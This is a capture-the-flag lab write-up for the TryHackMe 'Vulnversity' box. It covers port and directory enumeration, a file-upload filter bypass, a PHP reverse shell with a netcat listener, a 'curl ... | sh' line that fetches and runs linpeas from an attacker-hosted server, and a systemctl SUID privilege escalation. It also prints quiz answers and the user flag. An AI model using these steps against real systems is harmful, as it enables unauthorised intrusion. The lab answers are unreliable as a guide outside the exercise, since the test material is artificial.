





Vulnversity
=================

> Armand Alvarez | 17 July 2021

------------------------

Task 1: Deploy the machine

Task 2: Reconnaissance

### Nmap scan

First lets perform an nmap scan!

**21** - ftp - vsftpd 3.0.3
**22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
**139** - netbios-ssn Samba smbd 3.x - 4.x
**445** - ' ' smbd 4.3.11-Ubuntu
**3128** - http-proxy - Squid http proxy 3.5.12
**3333** - http - Apache httpd 2.4.18

## Questions

* Scan the box, how many ports are open?
`6`

* What version of the squid proxy is running on the machine?
`3.5.12`

* How many ports will nmap scan if the flag -p-400 was used?
`400`
    * This does a port scan of ports 1 - 400

* Using the nmap flag -n what will it not resolve?
`DNS`

* What is the most likely operating system this machine is running?
`Ubuntu`
    * Found on smb-os-discovery

* What port is the web server running on?
`3333`
    * _The port with http service_

------------------

Task 3: Locating directories using GoBuster

So, since we know that there is an http service on port 3333, we can try to _bust_ or _brute force_ the names of the directories using a really cool tool called GoBuster.

### Command Breakdown

Lets break down our command real quick and what we are looking at:

`gobuster dir -u http://10.10.99.117:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster.txt`

* `gobuster dir` -- Directs gobuster to work in directory enumeration mode
* `-u http://10.10.99.117:3333` -- Tells gobuster to scan our box (that is the IP of the box we are trying to get into for me, it may be different when you do this CTF.) The `:3333` tells gobuster to use port 3333 (by default it uses port 80)
* `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` -- Specifies the wordlist to use when enumerating through possible directories. This is a pretty good wordlist to use that comes installed stock in Kali linux. 

### Output Breakdown

We see that our ip address has the directories:
* /images
* /css
* /js
* /fonts
* /internal

The /internal directory looks interesting....

## Questions

* What is the directory that has an upload form page?
`/internal/`

----------------

Task 4: Compromise the webserver

Lets see what internal page looks like...

We can upload a file and submit it. But it looks like this does **NOT** work with .pl files. Instead of manually trying a bunch of different file types, we can use BurpSuite to do this automatically.

Turn on your Burp proxy and send the .pl file so that it gets rejected.

Then send that POST request to the intruder.

Under the Intruder->Positions tab, select the file extention. We do this because all we are enumerating is which file extention is allowed, we don't actually care about the contents of the file at this point in time.

Under the Intruder->Payload Options, put a list of common extention types like .php, .php5, .phtml, etc.

** Make sure you un-check "URL-encode these characters", otherwise it won't work.

Looking at the results, the `.phtml` extention works!

### Now lets upload a reverse php shell 

First, download the reverse shell provided

Secondly, open a netcat connection to port 1234

`nc -lvnp 1234`

After making the changes that the TryHackMe page recommends, you can upload the shell to the page. Navigate to /uploads to see your file, then click it to form the connection!

### Exploring

We can explore the webserver a little bit for some more information.

Typing `whoami` will show that we are logged in as _www-data_

Looking in the `home` directory will show only one user: Bill. He probably owns this webserver...

He only has one file in his directory. Probably the flag...

## Questions

* Try upload a few file types to the server, what common extension seems to be blocked?
`.php.`

* Run this attack, what extension is allowed?
`.phtml`

* What is the name of the user who manages the webserver?
`bill`

* What is the user flag?
`8bd7992fbe8a6ad22a63361004cfcedb`

----------------------

Task 5: Privilege Escalation

### linpeas

I solved this a little differently from the THM page.

First, I downloaded the linpeas.sh file from their website (you can google linpeas to find the github page, just click on the linpeas.sh file and download the raw file as linpeas.sh)

Second, on another terminal tab, type `python -m SimpleHTTPServer 80`
This starts an HTTP server on your IP

Then, back in your webserver netcat connection, type `curl http://<your ip>/linpeas.sh | sh`
This will download the linpeas file from the directory you started the HTTP server from and run it on the box. 

The results tell us a lot of options we can use for privilege escalation, but one of them sticks out.

By having systemctl under SUID, we can use that to escalate privileges because we can run it as root despite not having root access. 

### Privilege Escalation

Lets follow the process [here](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49) to take advantage of the misconfigured systemctl.

Once you create and upload your root.service file, execute it to become root!

You should be able to find the last flag ;)
